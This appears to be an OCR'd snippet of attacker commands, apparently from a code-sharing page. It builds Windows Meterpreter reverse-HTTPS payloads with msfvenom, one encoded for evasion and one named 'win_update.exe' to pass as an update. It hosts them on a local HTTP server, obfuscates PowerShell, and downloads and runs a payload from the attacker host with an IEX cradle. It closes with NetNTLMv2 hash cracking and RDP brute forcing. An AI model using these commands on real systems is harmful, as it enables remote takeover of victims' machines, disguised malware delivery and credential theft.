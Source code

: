 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

use /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/rdp_brute







